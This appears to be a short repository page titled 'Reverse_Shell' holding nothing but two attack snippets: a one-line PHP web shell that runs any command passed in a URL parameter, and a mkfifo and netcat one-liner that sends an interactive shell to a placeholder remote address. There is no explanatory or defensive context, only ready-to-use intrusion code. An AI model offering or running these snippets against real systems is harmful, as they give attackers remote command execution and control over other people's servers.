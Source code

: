 # Reverse\_Shell

```
<? php echo "<pre>"; system($_GET['cmd']); ?>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP_ADDR] [PORT] >/tmp/f
```
